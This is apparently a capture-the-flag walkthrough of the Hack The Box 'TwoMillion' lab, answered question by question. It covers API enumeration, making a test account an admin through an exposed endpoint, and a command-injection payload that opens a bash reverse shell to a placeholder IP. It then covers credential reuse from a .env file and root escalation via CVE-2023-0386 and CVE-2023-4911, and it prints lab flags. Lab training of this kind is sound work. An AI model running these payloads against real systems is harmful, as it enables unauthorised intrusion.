 ## Guided Mode:
**Q:** How many TCP ports are open?<br>
**A:** 2 <br>
`nmap -Pn -sV -T4 -O <IP>` <br> 
>(also indicated redirect to http://2Million.htb , so add it to /etc/hosts)<br>

**Q:** What is the name of the JavaScript file loaded by the /invite page that has to do with invite codes?<br>
**A:** inviteapi <br>
>Open http://2Million.htb/invite ,  `F12 -> Debugger`,<br> it reveals "js" folder that contain `inviteapi.min.js`<br>

**Q:** What JavaScript function on the invite page returns the first hint about how to get an invite code? Don't include () in the answer.<br>
**A:** makeInviteCode
>By going to "http://2million.htb/js/inviteapi.min.js" there's functions lists:<br>
>**'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'**<br>                                                                                                                                    
>Open http://2Million.htb/invite ->`F12`->`console`,<br> type makeInviteCode() , it will return:
```
Object { 0: 200, success: 1, data: {…}, hint: "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..." }
0: 200
data: Object { data: "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr", enctype: "ROT13" }
​data: "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr"
​enctype: "ROT13" 
```

**(Alternative)**-> [Beautifier.io](https://beautifier.io/) -> paste in the code from "http://2million.htb/js/inviteapi.min.js"<br> and make sure to select "Detect packers and obfuscators? (unsafe)"
>we'll get 2 urls:
 > url-1: `/api/v1/invite/verify`,<br>
 > url-2: `/api/v1/invite/how/to/generate`,<br>`curl -X POST http://2million.htb/api/v1/invite/how/to/generate`

>[Cyber-Chef](https://gchq.github.io/CyberChef/) <-- help with decrypting ROT13<br>
>results:
>"  In order to generate the invite code, make a POST request to `/api/v1/invite/generate`<br> 
>`curl -X POST http://2million.htb/api/v1/invite/generate`

>we should get: {"0":200,"success":1,"data":{"code":"WFdYNzgtRjQzNU4tUTJSOVMtUU0wSlY=","format":"encoded"}}<br>                                                                             
>                                                       its base64, decoded: XWX78-F435N-Q2R9S-QM0JV

**Q:** The endpoint in makeInviteCode returns encrypted data. That message provides another endpoint to query. That endpoint returns a code value that is encoded with what very common binary to text encoding format. What is the name of that encoding?<br>
**A:** base64<br>

**Q:** What is the path to the endpoint the page uses when a user clicks on "Connection Pack"?<br>
**A:** /api/v1/user/vpn/generate<br>
>Can be seen while browsing the site at "http://2million.htb/home/access"

**Q:** How many API endpoints are there under /api/v1/admin?<br>
**A:** 3 <br>
`curl -sv http://2million.htb/api/v1 --cookie "PHPSESSID=uqa2uf1v7hkjk6q3pda7301h95" | jq`<br>

**Q:** What API endpoint can change a user account to an admin account?<br>
**A:** /api/v1/admin/settings/update <br>
>(Don't forget content-type: application/json) , on this api it said in the response "is_admin":0 ,<br>
so i made request with <br>
`{ "email":"testy@gmail.com", "is_admin":1 }`<br>, and then double-checked with "/api/v1/admin/auth".

**Q:** What API endpoint has a command injection vulnerability in it?<br>
**A:** /api/v1/admin/vpn/generate<br>
>For some reason the api asked for "username" in the json request but never checked if its a valid one,<br> so the payload looked like this:<br>
`{"username":"testy@gmail.com$(bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1')"} `<br>

**Q:** What file is commonly used in PHP applications to store environment variable values?<br>
**A:** .env<br>
>Once shell obtained, it was on the same directory i spawned in,<br> just had to do `ls -la`, it contains "DB-user\pass" for user.<br>

**Q:** Submit the flag located in the admin user's home directory.<br>
**A:** 4c348452d176af48561431b89a9c9e75<br>
>I've uploaded linpeas.sh , the scan showed :
>`DB_USERNAME=admin , DB_PASSWORD=SuperDuperPass123`--> ssh login and got the first flag.<br>

**Q:** What is the email address of the sender of the email sent to admin?<br>
**A:** ch4p@2million.htb<br>
>linpeas also indicated this:<br> admin    admin         540 Jun  2  2023 /var/mail/admin     <--- its here 
>                              admin    admin         540 Jun  2  2023 /var/spool/mail/admin

**Q:** What is the 2023 CVE ID for a vulnerability in that allows an attacker to move files in the Overlay file system while maintaining metadata like the owner and SetUID bits?<br>
**A:** CVE-2023-0386<br>
>Hint said: "linux vulnerability fuse overlayfs"<br>

**Q:** Submit the flag located in root's home directory.<br>
**A:** 79c46e6cfbbaa34264a78128aea15ac0
>[CVE-2023-0386](https://github.com/xkaneiki/CVE-2023-0386/) <-- it does get stuck after execute 2 first commands,<br> > relogin and execute the third.

**Q:** vuln glib version<br>
**A:** 2.35<br>

**Q:** vuln lib name <br>
**A:** GLIBC_TUNABLES

### ALTERNATIVE PRIV ESC
[CVE-2023-4911](https://haxx.in/files/gnu-acme.py)    OR [From Github](https://github.com/hadrian3689/looney-tunables-CVE-2023-4911)

